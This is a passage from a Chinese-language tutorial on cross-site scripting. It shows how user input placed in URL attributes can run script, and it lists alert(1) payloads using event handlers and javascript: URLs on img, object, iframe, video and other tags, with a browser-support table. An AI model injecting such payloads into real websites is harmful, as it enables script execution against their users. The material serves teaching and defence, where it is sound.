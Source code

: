 ###### 2.3 URL 属性注入

**示例返回页面：**

```html
<a href="test-text">Click here</a>
```

**注入方式：**

```html
<a href="javascript:alert(1)">Click here</a>
```

**说明：**  
如果用户可控内容被插入到 URL 属性中，可能造成点击劫持、脚本执行等安全问题。应避免使用 `javascript:` 协议或进行严格的 URL 白名单过滤。

###### 3.利用常见标签和属性触发脚本执行

3.1 无需用户交互的事件属性

```html
```javascript

<object data="1" onerror="alert(1)"></object>

<img src="valid.gif" onload="alert(1)">


<input type="image" src="valid.gif" onload="alert(1)">


<video src="invalid.mp4" onerror="alert(1)"></video>


<audio src="invalid.mp3" onerror="alert(1)"></audio>

```

| 标签       | 属性      | 状态/浏览器支持        | 说明                       |
| ---------- | --------- | ---------------------- | -------------------------- |
| `<object>` | `onerror` | 一般有效               | 正确写法需指定 `data` 属性 |
| `<img>`    | `onload`  | 通用有效               | 常用 XSS 向量              |
| `<input>`  | `onload`  | 仅 `type="image"` 有效 | 否则不触发                 |
| `<video>`  | `onerror` | 通用有效               | 视频加载失败可触发         |
| `<audio>`  | `onerror` | 通用有效               | 音频加载失败可触发         |

3.2 脚本伪协议注入



```javascript

<object data="javascript:alert(1)"></object>


<iframe src="javascript:alert(1)"></iframe>


<event-source src="javascript:alert(1)"></event-source>

```
